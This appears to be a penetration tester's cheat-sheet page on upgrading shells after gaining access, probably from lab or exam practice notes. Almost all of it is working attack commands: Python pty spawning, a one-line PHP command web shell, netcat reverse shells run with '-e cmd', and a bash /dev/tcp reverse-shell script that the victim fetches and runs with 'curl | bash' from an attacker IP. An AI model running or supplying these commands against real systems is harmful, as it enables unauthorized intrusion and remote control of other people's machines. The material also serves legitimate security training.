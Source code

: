 ```yaml
---
description: Dummy shell to fully-interactive shell upgrade
---
```


# 😎 Fully-Interactive Shell Upgrade

## You just popped a shell...

Python:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

If Python3 is available:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Example syntax:

```
/var/www/admin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

* The shell will look exactly the same or it may appear slightly differently

However, to gain full functionality do the following:

<mark style="color:yellow;">Press CTRL+Z</mark>

```
 stty raw -echo; fg
```

* <mark style="color:yellow;">Press enter a few times after this</mark>
* <mark style="color:yellow;">export TERM=xterm-256color</mark>
* Now, you will have a fully-interactive shell
* This includes tab/auto-complete
* CTRL+C
* And more

## PHP Web Shell

1. Create web shell

```
echo '<?php system($_GET["x"]);?>' > php-cmd.php
```

&#x20; 2\. Transfer to target (i.e. FTP)

&#x20; 3\. Use Netcat to connect back to your attack machine

&#x20; 4\. Transfer the nc.exe binary if it is a Windows target

&#x20; 5\. Start Netcat listener on the attack machine

```
nc -lnvp 1337
```

&#x20; 6\. Trigger reverse shell

```
nc -v <kali_ip_here> 1337

nc.exe -v <kali_ip_here> 1337 -e cmd
```

### Web Shell -> Reverse Shell Upgrade

* I personally do not like operating in web shells because of their clunky nature
* Let's fix that
* Situation: You ALREADY have a web shell on the victim

Create file:

rev\_shell:

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.49.90/1337 0>&1
```

Start Netcat listener on Kali:

```
nc -lnvp 1337
```

Begin HTTP Server on Kali:

```
python3 -m http.server 80
```

Transfer file to the victim (I found out that you need to use curl when piping to bash):

```
curl 192.168.49.90/rev_shell | bash
```

Go back to your Netcat listener:

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
